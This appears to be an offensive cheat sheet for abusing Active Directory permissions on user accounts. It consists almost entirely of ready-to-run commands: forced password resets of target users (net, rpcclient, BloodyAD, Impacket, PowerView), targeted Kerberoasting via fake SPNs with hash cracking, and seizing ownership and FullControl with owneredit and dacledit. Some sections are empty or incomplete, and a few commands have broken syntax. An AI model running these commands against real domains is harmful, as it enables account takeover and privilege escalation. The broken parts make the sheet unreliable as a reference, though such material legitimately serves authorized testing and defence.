 # ACLs/ACEs permissions on User

### ForceChangePassword

#### 1) Net (Windows)

    net user USER PASSWORD /domain (Windows)

#### 2) Net (Linux)

    net rpc password USER PASSWORD -S DC_FQDN (Linux)

#### 3) Impacket

    impacket-changepasswd ignite.local/USER1@DC_IP -newpass Password@1234 -altuser ignite.local/TARGET_USER -altpass Password@1 -reset

Impacket’s changepassword can also be used to change current user password, if current password is known.

    impacket-changepasswd domain.local/USER1@DC_IP -newpass ‘Password@987’ -p rpc-samr

### GenericAll / GenericWrite

#### 1) Windows net command

Change the password of a user

    net user USER PASSWORD /domain

#### 2) Linux Net RPC - Samba 

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP   

#### 3) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@9876"

#### 4) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 "Password@9876"

#### 5) Targeted Kerberoasting (add SPN)

    targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 ### Alternate method: Powerview

#### 1) Enumerate interesting ACLs with powerview

    Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "OUR_USER"} 

#### Then:

    Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

    Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 6) Logon Script (Access)

#### 7) add Key Credentials (Shadow Credentials)

#### 8) Powerview

    $SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('domain.local\TARGET_USER', $SecPassword)

#### 9) Windows PowerShell

    $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### AllExtendedRights

#### 1) Linux Net RPC - Samba

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

#### 2) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 Ignite@987

#### 4) Powerview

    powershell -ep bypass
    Import-Module .\PowerView.ps1
    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### WriteOwner  /WriteDacl

#### 1) impacket-owneredit

Grant Ownership (owneredit), then assign Full Control (dacledit), then perform Kerberoasting or Password Change attacks (ForceChangePassword).

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

Then, you can do targeted Kerberoasting for example

    python3 targetedKerberoast.py --dc-ip 'DC_IP' -v -d 'domain.local' -u 'USER1' -p 'Password@1'

Crack hash

    john -w=/usr/share/wordlists/rockyou.txt hash

OR you can change the TARGET_USER's password

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Powerview

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'TARGET_USER' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET_USER" -PrincipalIdentity "USER1"

Now, do Kerberoast from a Windows Machine instead

    Set-DomainObject -Identity 'TARGET_USER' -Set @{serviceprincipalname='nonexistent/hacking'}
    Get-DomainUser 'TARGET_USER' | Select serviceprincipalname
    $User = Get-DomainUser 'TARGET_USER'
    $User | Get-DomainSPNTicket

OR change password

    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword
